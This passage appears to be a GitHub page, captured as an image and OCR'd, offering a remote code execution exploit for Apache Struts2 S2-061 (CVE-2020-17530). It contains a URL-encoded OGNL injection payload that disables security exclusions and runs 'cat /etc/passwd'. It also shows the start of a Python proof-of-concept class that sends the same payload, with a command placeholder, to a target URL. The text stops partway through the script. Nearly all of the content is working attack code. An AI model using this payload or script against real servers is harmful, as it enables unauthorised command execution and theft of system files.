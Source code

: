 ```html
name=%25%7B%28%27Powered_by_Unicode_Potats0%2Cenjoy_it%27%29.%28%23UnicodeSec+%3D+%23application%5B%27org.apache.tomcat.InstanceManager%27%5D%29.%28%23potats0%3D%23UnicodeSec.newInstance%28%27org.apache.commons.collections.BeanMap%27%29%29.%28%23stackvalue%3D%23attr%5B%27struts.valueStack%27%5D%29.%28%23potats0.setBean%28%23stackvalue%29%29.%28%23context%3D%23potats0.get%28%27context%27%29%29.%28%23potats0.setBean%28%23context%29%29.%28%23sm%3D%23potats0.get%28%27memberAccess%27%29%29.%28%23emptySet%3D%23UnicodeSec.newInstance%28%27java.util.HashSet%27%29%29.%28%23potats0.setBean%28%23sm%29%29.%28%23potats0.put%28%27excludedClasses%27%2C%23emptySet%29%29.%28%23potats0.put%28%27excludedPackageNames%27%2C%23emptySet%29%29.%28%23exec%3D%23UnicodeSec.newInstance%28%27freemarker.template.utility.Execute%27%29%29.%28%23cmd%3D%7B%27cat%20%2f/etc%2f/passwd%27%7D%29.%28%23res%3D%23exec.exec%28%23cmd%29%29%7D&age=
```

### POC

```python
#!/usr/bin/env python3

import re
import random
import string
import requests

class S2_061_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-061漏洞,又名CVE-2020-17530漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Struts 2.0.0 - Struts 2.5.25',
            'date': '2020-12-08',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/index.action'

        self.capta = self.get_capta()
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/x-www-form-urlencoded"
        }
       
        self.payload = {
            'name': '''%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#potats0=#UnicodeSec.newInstance('org.apache.commons.collections.BeanMap')).(#stackvalue=#attr['struts.valueStack']).(#potats0.setBean(#stackvalue)).(#context=#potats0.get('context')).(#potats0.setBean(#context)).(#sm=#potats0.get('memberAccess')).(#emptySet=#UnicodeSec.newInstance('java.util.HashSet')).(#potats0.setBean(#sm)).(#potats0.put('excludedClasses',#emptySet)).(#potats0.put('excludedPackageNames',#emptySet)).(#exec=#UnicodeSec.newInstance('freemarker.template.utility.Execute')).(#cmd={'cmd_data'}).(#res=#exec.exec(#cmd))}''',
            'age': ''
        }
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
```